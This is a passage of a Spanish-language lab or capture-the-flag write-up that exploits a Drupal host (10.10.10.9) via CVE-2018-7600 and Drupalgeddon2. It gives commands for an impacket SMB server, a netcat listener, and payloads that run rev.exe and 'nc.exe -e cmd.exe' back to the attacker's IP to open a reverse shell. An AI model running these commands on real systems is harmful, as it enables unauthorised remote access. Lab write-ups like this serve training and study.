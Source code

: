 ```bash
#OUTPUT
whoami
nt authority\iusr
```

### CARGA DE REVERSE POR CVE-2018-7600 + IMPACKET-SMBSERVER

Vamos a cargar la reverse shell esta vez ejecutando comandos de manera remota por el segundo exploit y compartiendo un servicio `smb` desde nuestro equipo de atacantes, de igual forma, nos ponemos en escucha por el puerto indicado y ejecutamos directamente la reverse shell desde nuestra propia máquina.

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

```bash
rlwrap nc -lvnp 4564
```

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "\\\\10.10.14.13\smbFolder\rev.exe"
```

```bash
#OUTPUT
whoami
nt authority\iusr
```

## DRUPALGEDDON2 + IMPACKET-SMBSERVER + NC

En esta ocasión vamos a realizar la intrusión por medio de la ejecución remota de comandos de `drupalgeddon2`, junto con un servidor `smb` activo para obtener una reverse shell por medio de la utilidad `nc.exe`, por lo que debemos tener la utilidad donde tenemos activos los recursos compartidos.

```bash
cp /usr/share/sqlninja/apps/nc.exe .
```

```bash
ruby 44449.rb http://10.10.10.9
```

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

```bash
rlwrap nc -lvnp 4564
```

```bash
drupalgeddon2>> \\10.10.14.2\smbFolder\nc.exe -e cmd.exe 10.10.14.2 4564
```

```bash
#OUTPUT
whoami
nt authority\iusr
```
